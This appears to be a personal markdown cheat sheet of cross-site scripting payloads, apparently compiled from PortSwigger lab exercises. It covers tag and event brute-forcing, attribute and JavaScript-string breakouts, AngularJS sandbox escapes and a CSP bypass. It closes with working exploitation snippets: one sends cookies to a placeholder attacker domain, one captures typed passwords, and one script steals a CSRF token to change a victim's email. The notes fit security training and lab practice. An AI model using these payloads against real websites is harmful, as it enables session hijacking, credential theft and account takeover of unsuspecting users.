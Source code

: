 # XSS Notes

## XSS between HTML tags

  1 - Send the resulting request to Burp Intruder

  2 - In Burp Intruder

      A - Bruteforce Tag 

      B - bruteforce Events

      c - You can find Tags & events There : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

  External web site

      D - payload = <iframe src="https://example.com/?search=UR_Payload" onload=this.style.width='100px'>

      E - Put it in HTML file And upload on Attacker web site
      F - <script>
               location = 'https://example.com/?search=%<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
          </script>

IF Reflected XSS with some SVG markup allowed

      - we will put SVG tag beFor payload Then

     - Create payload by Burp Intruder

     - EX : "><svg><animatetransform onbegin=alert(1)>

### Reflected XSS with event handlers and href attributes blocked
     <svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a> 

## XSS in HTML tag attributes

###  XSS context is into an HTML tag attribute value
     
    1 - erminate the attribute value, close the tag, and introduce a new one

    EX : "><script>alert(document.domain)</script> --> ore commonly in this situation, angle brackets are blocked or encoded
    
    2 -  terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context
    
    Ex : " autofocus onfocus=alert(document.domain) x=" 

    3 - Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context
  
    EX : <a href="javascript:alert(document.domain)"> 

    4 - You might encounter websites that encode angle brackets but still allow you to inject attributes
 
      - Sometimes, these injections are possible even within tags that don't usually fire events automatically, such as a **_canonical_** tag
       
       canonical : <link rel="canonical" href='https://example.net/'/> 
   
      - You can exploit this behavior using access keys and user interaction on Browser

      - Access keys allow you to provide keyboard shortcuts that reference a specific element

      - On Windows: ALT+SHIFT+X

      - On MacOS: CTRL+ALT+X

      - On Linux: Alt+X

      EX : https://example.com/?'accesskey='x'onclick='alert(1) 

           `<link rel="canonical" href='https://example.net/?'accesskey='x'onclick='alert(1)/> `

## XSS into JavaScript

      1 - Terminating the existing script

        EX : </script><script>alert(1)</script>

      2 - Breaking out of a JavaScript string

        a - EX : var searchTerms = '**'-alert(document.domain)-'**';
 
            - = ; 
         
        b - EX : var searchTerms = '\**\';alert(document.domain)//** '; 

        c - parameter : GET /post/comment/confirmation?postId=**aaaa** HTTP/1.1

          - <a href="/post?postId=**aaaa**">Back to blog</a>

          - https://acf21f131ee388c3806b199b004b00b3.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:' 
 
       3 - Making use of HTML-encoding

         - When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around some input filters.

         - <a id="author" href="http://websit" onclick="var tracker={track(){}};tracker.track('http://websit');">

         - https://foo/?&&apos;-alert(document.domain)-&apos; 

         - <a id="author" href="http://websit" onclick="var tracker={track(){}};tracker.track('https://foo/?&&apos;-alert(document.domain)-&apos;');">

      4 - XSS in JavaScript template literals

        - <script>

                            var message = `1 search results for 'test'`;

                            document.getElementById('searchMessage').innerText = message;

                        </script>

       - document.getElementById('searchMessage').innerText = ${alert(1)} ;
     
       - When the XSS context is into a JavaScript template literal, there is no need to terminate the literal

       -  you simply need to use the ${...} syntax to embed a JavaScript expression that will be executed when the literal is processed.

## XSS in the context of the AngularJS sandbox

       1 - Reflected XSS with AngularJS sandbox escape without strings

         - payload : 1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1 

       2 - Bypassing a CSP with an AngularJS sandbox escape

         - [1].map(alert) TO DO hiding the window object from the AngularJS sandbox

         - payload : ``<script> location='https://example.net/?search=%3Cinput%20id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x';</script>`` 

        - The exploit uses the ng-focus event in AngularJS to create a focus event that bypasses CSP

        - It also uses $event, which is an AngularJS variable that references the event object

        - The path property is specific to Chrome and contains an array of elements that triggered the event

        - he last element in the array contains the window object

        - Normally, | is a bitwise or operation in JavaScript, but in AngularJS it indicates a filter operation, in this case the orderBy filter

        - The colon signifies an argument that is being sent to the filter. In the argument, instead of calling the alert function directly, we assign it to the variable z

        - The function will only be called when the orderBy operation reaches the window object in the $event.path array

        - This means it can be called in the scope of the window without an explicit reference to the window object, effectively bypassing AngularJS's window check
 

## Exploiting cross-site scripting to steal cookies

`<script>
	fetch('https://YOUR-SUBDOMAIN-HERE.com', {
	method: 'POST',
	mode: 'no-cors',
	body:document.cookie });
 </script>`

## Exploiting cross-site scripting to capture passwords

`<input name=username id=username>`

`<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.com',{
	method:'POST',
	mode: 'no-cors',
	body:username.value+':'+this.value });"> `
## Exploiting cross-site scripting to perform CSRF "ATO"
### If CSRF Token Not Changes
`<script>`

`var req = new XMLHttpRequest();`

`req.onload = handleResponse;`

`req.open('get','/my-account',true);`

`req.send();`

`function handleResponse() {`

`var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];`

`var changeReq = new XMLHttpRequest();`

`changeReq.open('post', '/my-account/change-email', true);`

`changeReq.send('csrf='+token+'&email=test@test.com')};`

`</script>`
